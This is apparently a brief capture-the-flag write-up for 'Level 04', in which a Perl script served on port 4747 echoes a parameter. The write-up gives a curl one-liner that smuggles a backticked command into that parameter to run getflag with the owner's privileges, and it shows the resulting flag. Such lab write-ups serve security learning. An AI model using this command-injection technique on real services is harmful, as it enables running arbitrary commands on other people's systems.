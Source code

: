 # Level 04

A perl script file can be found in the user directory. We can check the service is running with `netstat -tulpn`. 

We see in the source code that  the script contains a subroutine that takes as parameter `x`. It puts it in a `echo` command. Because the file has the flag04 owner, we can exploit this.

```bash
curl localhost:4747?x=lol # lol
curl localhost:4747?x=\`getflag\` # ne2searoevaevoem4ov4ar8ap
```

